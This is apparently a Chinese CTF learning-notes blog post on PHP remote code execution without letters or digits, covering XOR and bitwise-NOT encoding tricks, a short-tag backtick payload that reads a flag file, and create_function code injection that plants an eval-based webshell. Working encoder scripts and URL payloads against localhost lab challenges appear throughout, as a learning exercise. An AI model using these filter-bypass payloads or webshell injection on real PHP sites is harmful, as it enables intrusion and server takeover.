 ```yaml
---
title: 20241210CTF学习笔记7
date: 2024-12-10
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true













---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第7天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第7章：无字母RCE和create_function

## 无字母RCE

#### 例题（php7）

```php
<? php 
	if(isset($_GET['code']){
        $code=$_GET['code'];
        if(preg_match("/[a-z0-9]+/i",$code)){
            die("NO.");
        }
        eval($code);
    }else{
        highlight_file(__FILE__);
    }
?>
```

在php7里，我们想要执行一个命令，但这个命令没法包含字母和数字，需要一个变换的思想，把字母和数字变换为不是字母和数字的形式，用的是位运算-异或运算，以下是方法：

### 异或

```php
<?php
    $a = "phpinfo";
    for($i=0;$i<strlen($a);$i++){	
        echo "%".dechex(ord($a[$i])^0xff);
    }
    echo "^";
    for ($i = 0; $i <strlen($a); $i++){
        echo "%ff";
    }
?>
```

此外，我们需要知道一个php的特性：函数的动态调用

```php
//1.在上次讲了变量覆盖，涉及到了函数的动态调用
extract($_GET['arr']);
@$d($_POST['0']);

//2.这次我们换一种方式做函数的动态调用，用括号把字符串包起来，相当于调用同名函数
("phpinfo")()
("php"."info")()
```

我们回到刚才的例题，我们给地址加上以下payload，就会执行phpinfo的命令：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();
```

同理，我们用刚刚提到的php方法，将phpinfo改为system，替换掉payload的位置，同时也对ls或者是cat flag执行异或操作，就能得到如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%93%8c^%ff%ff);
```



### 取反

```php
<?php
$a="phpinfo";
echo "~(";
for($i=0;$i<strlen($a);$i++){
    echo "%".bin2hex(~$a[$i]);
}
echo ")";
```

和上边的异或方法相同，我们对phpinfo取反后，得出如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(~(%8f%97%8f%96%91%99%90))();
```

如果我们不想要里边儿的这一层括号可以直接删除，得到如下请求，效果相同：

```
http://127.0.0.1:1234/php7_rce_php?code=(~%8f%97%8f%96%91%99%90)();
```

同理我们可以对system和ls进行取反



### 总结

取反和异或是比较基础和常用的绕过无字母和数字的webshell



### 进阶例题

```php
<?php
	error_report(0);
	//flag.php
	if(isset($_GET['code'])){
        $code=$_GET['code'];
        if(strlen($code)>18){
            die("You are really long, buti dont like more than 18cm");
        }
        if(preg_match("/\w/",$code)){
            die("i dislike it");
        }
        if(preg_match("/&|\||\^|\~|\!/",$code)){
            die("stop calculating");
        }
        if(preg_match("/\(|\)/",$code)){
            die("call function is not safe");
        }
        if(preg_match("/|{|\}|][|\]",$code)){
            die("fxcking brackets");
        }
        if(preg_match("/\\$|@|\。/",$code)){
            die("1 dou bu gei wo");
        }
        eval($code)//I believe that those noob hackers cannot hack me
    }
>
```

1. 长度不能大于18
2. \w表示字母数字下划线不能有
3. &与、|或、^异或、!非    以上都不能有
4. 不能有()括号
5. 不能有{}大括号[]中括号
6. 不能有$、@、.等符号

我们只需要做一个这样的访问请求即可：

```
http://127.0.0.1:1234/?code=?><?=`/???/???%20*`;
```

1. 这个意思是?>把php结束掉，然后<?开始一个新的php
	
> php这三个字母就是php短标签short_tag

2. <?=	表示	<? echo
3. 反引号	·	表示	执行系统命令shell_exec
4. 星号	*	表示	任意长度的任意字符
5. 问号	?	表示	单个长度的任意字符（问号匹配到了太多东西，所以执行后会有很多乱码）
6. %20	表示	空格 

最后我们执行了很多的命令，其中最重要的一条其实是

```php
shell_exec(/bin/cat/ flag);
```





## create_function

### 定义和用法：

create_function()函数有两个参数$args和$code，用于创建一个lambda样本的函数。

```php
$code = "return($a+$b);}eval($_POST['Flag']);//"
$f=create_function('$a,$b',$code);

//相当于得到：
function f($a,$b){
	return $a+$b
}
eval($_POST['Flag']);
//}
```

创建函数的过程中存在一个代码注入的漏洞，我们的思路是用花括号先把函数闭合掉，然后再把最后原本的花括号注释掉，中间用eval()函数写一个木马

